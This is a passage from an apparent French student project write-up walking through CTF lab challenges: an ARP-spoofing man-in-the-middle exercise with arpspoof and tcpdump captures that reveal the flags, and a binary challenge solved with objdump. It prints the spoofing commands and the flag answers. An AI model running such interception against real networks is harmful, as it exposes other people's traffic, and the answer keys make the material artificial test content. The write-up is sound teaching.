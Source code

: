 Une fois cela fait, le participant peut lire les trames qu'Alice souhaite envoyer à Bob :

```bashshell
root@MITM:/home/Eve# tcpdump icmp -X
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
[...]                              ....
20:34:24.473822 IP alice.MITM > bob.MITM: ICMP echo request, id 1602, seq 1, length 64
	0x0000:  4500 0054 6bec 4000 4001 7653 ac32 0002  E..Tk.@.@.vS.2..
	0x0010:  ac32 0003 0800 1df9 0642 0001 509e 8a62  .2.......B..P..b
	0x0020:  0000 0000 953a 0700 0000 0000 3a20 4d40  .....:......:.M@
	0x0030:  7263 3020 666c 6167 3a20 4d40 7263 3020  rc0.flag:.M@rc0.
	0x0040:  666c 6167 3a20 4d40 7263 3020 666c 6167  flag:.M@rc0.flag
	0x0050:  3a20 4d40                                :.M@
[...]
```
Ici le flag qu'envoie Alice est `M@rc0`.

Pour connaître le flag qu'envoie Bob à Alice, le participant doit réaliser la même commande arpspoof mais en inversant les adresses IP de Bob et Alice :

```bashshell
root@MITM:/home/Eve# arpspoof -t 172.50.0.3 172.50.0.2 2>1 &
[2] 23
root@MITM:/home/Eve# 
root@MITM:/home/Eve# tcpdump icmp -X
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
[...]                               ....
20:41:34.968546 IP bob.MITM > alice.MITM: ICMP echo request, id 1776, seq 1, length 64
	0x0000:  4500 0054 fff1 4000 4001 e24d ac32 0003  E..T..@.@..M.2..
	0x0010:  ac32 0002 0800 1293 06f0 0001 fe9f 8a62  .2.............b
	0x0020:  0000 0000 1dc7 0e00 0000 0000 3a20 5028  ............:.P(
	0x0030:  297c 4f20 464c 4147 3a20 5028 297c 4f20  )|O.FLAG:.P()|O.
	0x0040:  464c 4147 3a20 5028 297c 4f20 464c 4147  FLAG:.P()|O.FLAG
	0x0050:  3a20 5028                                :.P(
[...]
```
Le flag qu'envoie Bob est `P()|O`.

<ins>4.2) Déroulement de l'épreuve text-dans-binaire :</ins>\
Pour débuter l'épreuve, le participant doit éxécuter le fichier epreuve6-text-dans-binaire :

```bashshell
root@debtiti:/home/titi/projet-DUT2-partie-Thibaut# ./epreuve6-text-dans-binaire
Bienvenue dans l'épreuve numéro 6 !
Cette épreuve consiste à chercher les trois différents flags qui se cachent dans ce fichier binaire.
Chacun des flags valent un point et sont composés d'un chiffre et de trois lettres... Bonne chance !
root@debtiti:/home/titi/projet-DUT2-partie-Thibaut# 
```
Une des solutions à l'épreuve est d'utiliser la commande `objdump` :

```bashshell
titi@debtiti:~/projet-DUT2-partie-Thibaut$ objdump -g ./epreuve6-text-dans-binaire | less
```
Le participant pourra chercher le flag avec `/flag` :
```bashshell
    <626>   DW_AT_linkage_name: (chaîne indirecte, décalage: 0x8b3): _ZN26epreuve6_text_dans_binaire4flag10flag1_c3st17h286bade57852d45bE
    <62a>   DW_AT_name        : (chaîne indirecte, décalage: 0x8f8): flag1_c3st
[...] 
    <643>   DW_AT_linkage_name: (chaîne indirecte, décalage: 0x90c): _ZN26epreuve6_text_dans_binaire4flag4c0ol17hd0954afbd456b997E
    <647>   DW_AT_name        : (chaîne indirecte, décalage: 0x94a): c0ol
[...]
```